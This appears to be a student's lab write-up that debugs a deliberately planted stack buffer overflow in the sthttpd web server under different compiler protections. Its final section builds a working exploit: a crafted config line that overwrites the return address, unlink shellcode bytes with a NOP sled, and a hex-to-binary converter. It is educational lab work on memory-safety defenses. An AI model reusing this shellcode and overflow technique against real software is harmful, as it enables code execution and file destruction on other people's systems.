 #+TITLE: Smashing Lab
#+AUTHOR: Nikola Samardzic
#+OPTIONS: toc:nil
* 3 Setup
First I run the src/thttpd-sp version on port 12799.
Second I run the src/thttpd-sp version on port 12800.
Third I run the src/thttpd-sp version on port 12801.

* 4 Setup, part 2
Inside the thttpd directory I call
curl http://localhost:12799/README (README is a valid filename in this 
directory and the default working directory for thttpd is the directory in
which the executable is located). This command spits out the contents of
README into the terminal window in the style of 'cat'.
* 5 SP Crash
I need the debugger to be able to see how to implant the bug. From the patch
we can see that the bug is introduced into the read_config function inside
thttpd.c file. By examining the code of thttpd.c I noticed that the function
read_config is called only when the -C tag is specified:

#+begin_src C:
        else if ( strcmp( argv[argn], "-C" ) == 0 && argn + 1 < argc )
            {
            ++argn;
            read_config( argv[argn] );
            }
#+end_src

We also note that the bug occurs when because the variable 'line' is fed 
with more than 100 chars (the limit was erroneously set to 1000 in fgets).
Therefore, we need a config file that contains a line with more than 100
characters. So, I created a config.txt file that contains the char 'X'
repeated 150 times.
So, I run src/thttpd-sp inside gdb with options -p 12799 -D -C config.txt
This didn't work, because the function read_config has a long if-else-if
branch that checks the current line of the config file with all the valid
words that thttpd expects in the file. Since XXXX... is not a valid word
thttpd will return an error message specifying that the config file contains
invalid entries.
Therefore we must use valid entries. I noticed that the word 'debug' is 
considered a valid config file word. I changed my config.txt to contain many
copies of 'debug' seperated by white space.
Running src/thttpd-sp with this new config file does produce sa SIGSEGV runtime
error, because unallocated memory was accessed. This is what we wanted.

The message outputed states:

#begin_src
 *** stack smashing detected ***: 
 /w/home.13/cs/ugrad/nikola/sthttpd-2.27.0/src/thttpd-sp terminated
#end_src

Now we generate the backtrace using the bt command:

#begin_src
#0  0x00007ffff6db3118 in ?? () from /lib64/libgcc_s.so.1
#1  0x00007ffff6db4019 in _Unwind_Backtrace () from /lib64/libgcc_s.so.1
#2  0x00007ffff76e8636 in backtrace () from /lib64/libc.so.6
#3  0x00007ffff7651f24 in __libc_message () from /lib64/libc.so.6
#4  0x00007ffff76ec047 in __fortify_fail () from /lib64/libc.so.6
#5  0x00007ffff76ec010 in __stack_chk_fail () from /lib64/libc.so.6
#6  0x0000000000404cb3 in read_config (filename=<optimized out>)
    at thttpd.c:1190
#7  0x7562656400677562 in ?? ()
#8  0x0067756265640067 in ?? ()
#9  0x6564006775626564 in ?? ()
#10 0x7562656400677562 in ?? ()
#11 0x0067756265640067 in ?? ()
#12 0x6564006775626564 in ?? ()
#13 0x7562656400677562 in ?? ()
#14 0x00007fff00000067 in ?? ()
#15 0x0000000000000000 in ?? ()
#end_src

We see the read_config function on the stack, as well as additional functions
that are called due to the gcc tags we added and because a stack error occurs.
We need to disassemble the line of read_config that caused this additional 
mess by using disas 0x404cb3:

#begin_src
0x0000000000404cae <+1358>:callq  0x402180 <__stack_chk_fail@plt>
0x0000000000404cb3 <+1363>:mov    %r13,%rsi
#end_src

we see a call to the stack_chk_fail function. By running the program using step
i, we see that the call to stack_chk_fail is reached from the jump:

#begin_src
0x0000000000404c06 <+1190>:mov    0x68(%rsp),%rax
0x0000000000404c0b <+1195>:xor    %fs:0x28,%rax
0x0000000000404c14 <+1204>:jne    0x404cae <read_config+1358>
#end_src

I would assume that here the value of the stack at offset 68 is compared to the
value of the saved cannery value. These two values are suppose to be equal. If
they are not we know something wrote over forbidden stack locations and we jump
to the stack_chk_fail function.
* 6 AS Crash
Running the AS version with the same parameters as in 5, we get a big
message from the compiler indicating possible causes of the bad memory
reference. The error message states 

'line' <== Memory access at offset 132 overflows this variable
which means the error message correctly pinpoints the issue.

A part of the error message contains the backtrace:

#begin_src
    #0 0x43aec8 in __interceptor_strchr ../../../../gcc-6.3.0/libsanitizer/asan/asan_interceptors.cc:468
    #1 0x4e0b50 in read_config /u/cs/ugrad/nikola/sthttpd-2.27.0/src/thttpd.c:1018
    #2 0x4e164e in parse_args /u/cs/ugrad/nikola/sthttpd-2.27.0/src/thttpd.c:893
    #3 0x408297 in main /u/cs/ugrad/nikola/sthttpd-2.27.0/src/thttpd.c:380
    #4 0x7ffff6cc6b34 in __libc_start_main (/lib64/libc.so.6+0x21b34)
    #5 0x4093f9  (/w/home.13/cs/ugrad/nikola/sthttpd-2.27.0/src/thttpd-as+0x4093f9)
#end_src

By disassemling the code around 0x4e0b4c we see that the last line of read_config was

#begin_src
0x00000000004e0b35 <+165>:call   0x405ee0 <fgets@plt>
0x00000000004e0b3a <+170>:test   rax,rax
0x00000000004e0b3d <+173>:je     0x4e10ed <read_config+1629>
0x00000000004e0b43 <+179>:mov    rdi,QWORD PTR [rsp]
0x00000000004e0b47 <+183>:mov    esi,0x23
0x00000000004e0b4c <+188>:call   0x43b080 <__interceptor_strchr(char const*, int)>
#end_src

Note: The disassembled code above was generated days after the code above it
so the stack addresses might not match.

__interceptor_strchr is used to check the stack for overwritting illegal 
values on the stack. It is called right before 

1018: if ( ( cp = strchr( line, '#' ) ) != (char*) 0 )

that is, before the call to strchr(). It notices the problem, and throws an
error before strchr is called.
* 7 NO Crash
The NO version crashes at return:
0x404d9f <read_config+1215>     retq

The backtrace produced by the crash is

#begin_src
#0  0x0000000000404d9f in read_config (filename=<optimized out>)
    at thttpd.c:1190
#1  0x7562656400677562 in ?? ()
#2  0x0067756265640067 in ?? ()
#3  0x6564006775626564 in ?? ()
#4  0x7562656400677562 in ?? ()
#5  0x0067756265640067 in ?? ()
#6  0x6564006775626564 in ?? ()
#7  0x7562656400677562 in ?? ()
#8  0x0000000000000067 in ?? ()
#9  0x0000000000403743 in main (argc=<optimized out>, argv=<optimized out>)
    at thttpd.c:380
#end_src

This version of the executable has no stack protection and crashes on
return without calling any other functions.
* 8 Difference in assembly
The variation with no stack protection calls no outside functions and just
executes code linearly. The assembly code for strong-stack-protection (SP)
is identical to the NO variant for this function. I assume this is because
the SP variant creates a cannery. The cannery isn't taken care of in this
function, so there is no way to spot the difference between having a cannery
and not having a cannery if we only look at handle_read

The variation with the address sanitzer (SP) is the most elaborate. 
It checks to see if any "shadow memory" is present and calls an 
__asan_report function, which 'aborts the program and sends error message' 
(from manual). Here, SP calls functions to check to see what is loaded.
Shadow memory can be used to check for invalid memory accesses, even if
the program does not crash due to segmentation faults. Valgrind uses similar
methods. So, the assembly coad is increased because of the many instruction
calls that look at shadow memory to determine if memory is corrupted.

* 9 Exploiting the bug
Running the code with gdb-peda and the original config file from above we get the
following output:

#begin_src
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x67756265640067 ('g')
RCX: 0x0 
RDX: 0x7ffff7997fe0 --> 0x21000 
RSI: 0x7ffff79977b8 --> 0x617000 --> 0x0 
RDI: 0x20000 
RBP: 0x6564006775626564 ('debug')
RSP: 0x7fffffffcfa8 --> 0x7562656400677562 ('bug')
RIP: 0x404d9f (<read_config+1215>:ret)
R8 : 0x1 
R9 : 0x7ffff7fcf740 (0x00007ffff7fcf740)
R10: 0x7fffffffcc90 --> 0x0 
R11: 0x206 
R12: 0x7562656400677562 ('bug')
R13: 0x67756265640067 ('g')
R14: 0x6564006775626564 ('debug')
R15: 0x5
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
0x404d99 <read_config+1209>:pop    r12
0x404d9b <read_config+1211>:pop    r13
0x404d9d <read_config+1213>:pop    r14
=> 0x404d9f <read_config+1215>:ret    
0x404da0 <read_config+1216>:mov    rsi,r13
0x404da3 <read_config+1219>:mov    rdi,rbp
0x404da6 <read_config+1222>:call   0x404630 <no_value_required>
0x404dab <read_config+1227>:
    mov    DWORD PTR [rip+0x2111f3],0x1        # 0x615fa8 <no_empty_referers>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffcfa8 --> 0x7562656400677562 ('bug')
0008| 0x7fffffffcfb0 --> 0x67756265640067 ('g')
0016| 0x7fffffffcfb8 --> 0x6564006775626564 ('debug')
0024| 0x7fffffffcfc0 --> 0x7562656400677562 ('bug')
0032| 0x7fffffffcfc8 --> 0x67756265640067 ('g')
0040| 0x7fffffffcfd0 --> 0x6564006775626564 ('debug')
0048| 0x7fffffffcfd8 --> 0x7562656400677562 ('bug')
0056| 0x7fffffffcfe0 --> 0x67 ('g')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000404d9f in read_config (filename=<optimized out>) at thttpd.c:1190
1190    }
Missing separate debuginfos, use: debuginfo-install glibc-2.17-157.el7_3.1.x86_64 nss-softokn-freebl-3.16.2.3-14.4.el7.x86_64
#end_src

We see we overwrote contents of some of the registers and that the stack is
affected but %rip remains intact. By the blog post linke on the lab page
this is bacause we are attempting to load an address into %rip that is not
a valid instruction pointer on linux.

Unfortunately, we cannot just put anything into the config file because
the config parser will notice if the config contains invalid keywords.
Luckly, we can type in an arbitrary number of spaces. This will be coded
into zeros if it were to write over the return address on the stack.

If you type 'debug' once into the config and follow it with a lot of spaces
the rip will be overwritten and become 0x0 which is again unfortunately a
invalid address. What I did is I wrote two 'debug' and a number of spaces
between them. Then using binary search i located where I should put the 
second 'debug' so that the rip gets overwritten with a legal address value.
I got to overwrite rip with the address 0x6775626564 (='debug') as 
demonstrated by gdb:

RIP: 0x6775626564 ('debug')

Right now, the stack pointer, when entering read_config, is at 0x7fffffffcfa8.
This value will contain the return address. We want to overwrite this. Also,
the line char pointer starts at 0x7fffffffcf10. 
So 0x7fffffffcfa8 - 0x7fffffffcf10 = 152
Therefore, the 153rd character in config.txt will overwrite the return address.
I change my config file to

#xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx\
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxdebug

The '#' at the beginning will be regarded by read_config as a beginning of
the comment line. This lets us circumvent read_config's word check system and
insert whatever we want.

Using gdb-peda we can see that RIP is changed to 'debug':

RIP: 0xa6775626564 ('debug\n')

OK, now we want to make RIP point to the beginning of a program that we yet
have to insert into the config.txt.

I created an unlink.s file:

movq    $0x7fffffffcf38, %rdi
movq    $0x57, %rax
syscall

code will delete a file named 'target.txt'. It uses Unix's syscall to remove a 
file, the name of the file was transcribed to hex 
($0x7fffffffcf38 = 'target.txt').

Now we compile this with 

gcc -c unlink.s

Now examine the executable using objdump -d unlink.o:

Disassembly of section .text:

0000000000000000 <.text>:
0:48 bf 38 cf ff ff ff movabs $0x7fffffffcf38,%rdi
7:7f 00 00 
a:48 c7 c0 57 00 00 00 mov    $0x57,%rax
11:0f 05                syscall

So, the hex value of the code we use to delete target.txt is

48 bf 38 cf ff ff ff 7f 00 00 48 c7 c0 57 00 00 00 0f 05

Now, I create a config file

0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x\
90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90\
 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0\
x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x9\
0 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 \
0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x48 0xbf 0x38 0xcf 0xff 0xff 0xff 0x7f 0x00 0x00 0x48 0xc7 0xc0 0x57 0x00 0x\
00 0x00 0x0f 0x05 0x09 0x09 0x09 0x09 0x91 0xcf 0xff 0xff 0xff 0x7f 0x00 0x00

and run it through the following program with the command 
./conv <config.txt >temp.txt:

#begin_src
#include <stdio.h>

int main (void) {
  int i;
  while (scanf("%x", &i) != EOF)
    printf("%c", i);

  return 0;
}
#end_src

to generate the appropriate exploit file.

What this code does is tries to execute the exploit by positioning the 
return address to 0x7fffffcf91 (0x91 0xcf 0xff 0xff 0xff 0x7f 0x00 0x00), 
which is the beggining of the exploit code on the stack.

After running the program we see that gdb does not report a SIGSEGV but a
SIGILL. Also, we see that the value of the instruction pointer at the time
of the crash is 0x00007fffffffcfa6. This implies that the program executed
the lines of the exploit between 0x7fffffcf91 and 0x00007fffffffcfa6 and then
crashed at 0x00007fffffffcfa6 because we overflowed the line array only
until 0x00007fffffffcfa8. So I assume 0x00007fffffffcfa6 contains some
junk values that the computer cannot execute.
